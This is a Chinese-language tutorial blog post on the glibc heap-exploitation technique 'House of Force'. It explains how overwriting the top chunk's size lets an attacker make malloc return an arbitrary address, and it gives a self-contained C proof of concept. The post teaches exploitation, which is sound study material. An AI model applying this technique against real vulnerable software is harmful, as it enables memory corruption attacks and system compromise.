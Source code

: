 ```yaml
---
title: "heap利用 8/9: House of Force"
date: 2023-02-05T15:36:08+08:00           

tags : [                                    
"heap利用",
]
categories : [                              
"heap利用",
]
keywords : [                                
"heap利用",
]
---
```


<br>

本攻击与 “House of Lore” 类似，重点是利用 `malloc` 返回任意指针。Forging chunks攻击主要是针对fastbins，而 “House of Lore” 攻击主要是针对small bins。“House of Force”利用了“top chunk”，`top chunk`也被称为 “wilderness”，它位于堆内的最大地址处，与堆的末尾相接，并且不存在于任何的 bin 中，具有与普通chunk结构相同的格式。

该攻击假定恶意内容会溢出到顶部块的标头。为了确保所有初始请求都是使用 `top chunk`，而不是依赖于 `mmap`，`top chunk` 的 `size` 会被修改为一个非常大的值，本例中为 `-1`，在 64 位系统上，`-1` 的十六进制数为 `0xFFFFFFFFFFFFFFFF`，这个大小的块可以覆盖程序的整个内存空间。我们假设攻击者希望`malloc`返回地址 `P`。现在，任何请求分配大小为 `&top_chunk` - `P` 的 `malloc` 调用都将使用`top chunk`，这里的 `P` 可以在 `top_chunk` 之后或之前。如果是之前，结果将是一个很大的正值（因为 size 是无符号的），但它仍然会小于 `-1` ，此时会发生整数溢出，并且 `malloc` 将使用 `top chunk` 成功地为该请求分配空间。此时，`top chunk` 将指向 `P`，对任何的请求都返回 `P`。

下列代码展示了一个这种攻击的案例。(完整代码见[此处](https://github.com/DhavalKapil/heap-exploitation/blob/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/house_of_force.c))

```C
// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc"; // At 0x601060

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

struct chunk_structure *chunk, *top_chunk;
unsigned long long *ptr;
size_t requestSize, allotedSize;

// First, request a chunk, so that we can get a pointer to top chunk
ptr = malloc(256);                                                    // At 0x131a010
chunk = (struct chunk_structure *)(ptr - 2);                          // At 0x131a000

// lower three bits of chunk->size are flags
allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

// top chunk will be just next to 'ptr'
top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);  // At 0x131a110

// here, attacker will overflow the 'size' parameter of top chunk
top_chunk->size = -1;       // Maximum size

// Might result in an integer overflow, doesn't matter
requestSize = (size_t)victim            // The target address that malloc should return
                - (size_t)top_chunk     // The present address of the top chunk
                - 2*sizeof(long long)   // Size of 'size' and 'prev_size'
                - sizeof(long long);    // Additional buffer

// This also needs to be forced by the attacker
// This will advance the top_chunk ahead by (requestSize+header+additional buffer)
// Making it point to 'victim'
malloc(requestSize);                                                  // At 0x131a120

// The top chunk again will service the request and return 'victim'
ptr = malloc(100);                                // At 0x601060 !! (Same as 'victim')
```

`malloc` 返回了一个指向 `victim` 的指针，此时需要注意的是：
1. 在推断指向`top_chunk`的确切指针时，将前一个块的三个较低位置为 0 即可以获得正确的大小。
2. 在计算 `requestSize` 时，会减少大约 `8` 个字节的额外缓冲区，这是为了防止 `malloc` 在关于chunk做处理时所做的四舍五入。在这种情况下，`malloc` 返回一个块，其中包含比请求多 `8` 个字节的块，具体因计算机而异。
3. `victim` 可以在任何地址空间（堆，栈，BSS等）中。
